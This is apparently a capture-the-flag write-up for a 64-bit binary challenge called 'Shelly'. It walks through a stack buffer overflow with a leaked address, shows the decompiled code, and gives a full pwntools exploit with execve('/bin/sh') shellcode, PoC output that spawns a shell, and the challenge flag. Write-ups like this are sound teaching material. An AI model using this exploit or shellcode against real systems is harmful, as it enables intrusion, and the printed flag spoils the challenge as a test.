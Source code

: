 # [__💲Shelly💲__](#)

## Description: 

* You old partner in crime is back in town. Shelly knows a lot and even after all the things you've been through, you kinda need her.. Or does she need you? Anyway, talk to her and plan a bright future together.

## Objective: 

* `Buffer Overflow` and `ret2shellcode` attack.

## Flag: 🏁
* `INSSEC{sh3lly_1s_re4lly_h3lpful!}`

### Difficulty:
* Medium

## Challenge:

The interface looks like this:

```console
Shelly wants to help you get some 💵.
Do you trust her?

[1] Yes, of course!
[2] Of course not!

[You]: 1
Tell her your plan
[You]: rob

[Shelly]: This sounds really good!
We need to hit this first: [0x7ffca581b910]
Do you agree?

[You]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa

[Shelly]: That's bad..
[1]    20333 segmentation fault (core dumped)  ./shelly
```

As we can see, there is a `SegFault` after some "A"s. That means there is a possible `Buffer Overflow`.

We run a `checksec` to verify this:

```console
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      PIE enabled
RWX:      Has RWX segments
```

`NX`, `PIE` and `Canary` are disabled, that means we can execute code and perform a buffer overflow if possible.

Let's open a disassembler to analyze the program.

### Disassembly 

We start from `main()`:

```c
undefined8 main(void)

{
  int iVar1;
  char *pcVar2;
  char local_48 [32];
  undefined local_28 [28];
  int local_c;
  
  setup();
  printstr(&DAT_00100c58);
  printstr("\n[1] Yes, of course!\n[2] Of course not!\n");
  printf("\x1b[1;36m");
  printstr("\n[You]: ");
  __isoc99_scanf(&DAT_00100cd2,&local_c);
  if (local_c == 2) {
    printf("\x1b[1;31m");
    printstr("This was not a good choice..\n");
  }
  else {
    if (local_c == 1) {
      printstr("Tell her your plan\n");
      printf("\x1b[1;36m");
      printstr("[You]: ");
      read(0,local_28,10);
      printf("\x1b[1;32m");
      printstr("\n[Shelly]: This sounds really good!\nWe need to hit this first: ");
      printf("[%p]",local_48);
      printstr("\nDo you agree?\n");
      printf("\x1b[1;36m");
      printf("\n[You]: ");
      __isoc99_scanf(&DAT_00100d75,local_48);
      printf("\x1b[1;32m");
      iVar1 = strcmp(local_48,"yes");
      if (iVar1 == 0) {
        pcVar2 = "\n[Shelly]: Good! See you there at 4.20 pm\n";
      }
      else {
        pcVar2 = "\n[Shelly]: That\'s bad..\n";
      }
      printstr(pcVar2);
    }
    else {
      printf("\x1b[1;32m");
      printstr("\n[Shelly]: This was never an option..\n");
    }
  }
  return 0;
}
```

As we can see, we have a leak of the buffer we write (local_48).

We also have an Overflow due to scanf having no limits here.

So, our goal is:

* Save leaked address.
* Fill the buffer with our shellcode and nops and overwrite the return address with our leaked address.

We found form gdb that the return address is after 72 bytes:

```gdb
[+] Found at offset 72 (big-endian search)
```

The final payload looks like this:

```python
payload = sc.ljust(72, b'\x90') + p64(leaked)
```

### Exploit 📜

```python
#!/usr/bin/python3.8
from pwn import *

ip = '172.17.0.1' # change this
port = 1337 # change this
fname = './shelly' # change this

LOCAL = False

if LOCAL:
	r = process(fname)
else:
	r = remote(ip, port)

ru = lambda x : r.recvuntil(x)
inter = lambda : r.interactive()
sla = lambda x,y : r.sendlineafter(x,y)

def pwn():
	sla(':', '1')
	sla(':', 'w3t')
	sc = b'\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05'
	ru('0x')[:-2]
	leaked = int(ru(']')[:-1],16)
	print('Leaked: 0x{:x}'.format(leaked)) 
	payload = sc.ljust(72, b'\x90') + p64(leaked)
	sla(':', payload)
	inter()

if __name__ == '__main__':
	pwn()
```

### PoC 🏁

```console
[+] Opening connection to 172.17.0.1 on port 1337: Done
Leaked: 0x7fff7c85a410
[*] Switching to interactive mode
 
[Shelly]: That's bad..
$ id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
$ cat flag.txt
INSSEC{sh3lly_1s_re4lly_h3lpful!}
```

